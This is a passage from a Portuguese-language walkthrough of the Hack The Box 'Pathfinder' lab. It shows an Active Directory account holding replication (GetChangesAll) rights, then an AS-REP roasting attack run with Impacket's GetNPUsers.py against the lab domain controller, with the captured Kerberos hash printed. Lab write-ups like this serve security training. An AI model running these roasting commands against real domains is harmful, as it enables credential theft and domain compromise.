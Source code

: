 <img src="/img/htb/htb-pathfinder-4.png">

Podemos ver que o usuário `svc_bes` se liga diretamente ao DC e tem privilégios `GetChangesAll`. Isso significa que este usuário tem privilégios de solicitar informações sensíveis do DC, inclusive hashes de senhas.

### Escalação de privilégios horizontal

Podemos fazer uma tentativa de PrivEsc Horizontal, ao tentar acesso com o usuário `svc_bes`, para tanto, precisamos checar se a pré-autenticação do Kerberos está desabilitada para esta conta. Se sim, o DC está vulnerável a [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/).

Vamos utilizar o `GetNPUsers.py` para verificar.

```bash
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:73e00be48dcb9672655c008a25665eda$2e43937963ba72aeda130ab7f779f22a9bd1c5526fe6f70ae93c30beeb9266ef5a55c258b0bdca4f86706866d14f0fdff126ca6100e97e7873399243fab54231776f227db65352acec98a8b37fee5e33f1cba334254e60d724cef56a5d481db3fb5e3060274237748dc7bae98b5b1dbdc1a3e6512f9437d4e244ade19d8da1aef42b5a718696f5c4caafc779092d6b7bd03671083569feb0b8789fe16b27afe53afdfc417a347c8db69738c5593ec54f5c2d2e2d86d9fab115475a474940a5edc2876b22b13fe1e60b6642ca01c0830cd11222b0d0292ab62a8bd97732ab04f9778763e1a80ee18267f6914a1580a774
```
Conseguimos um `TGT ticket` para o usuário svc_bes!!!
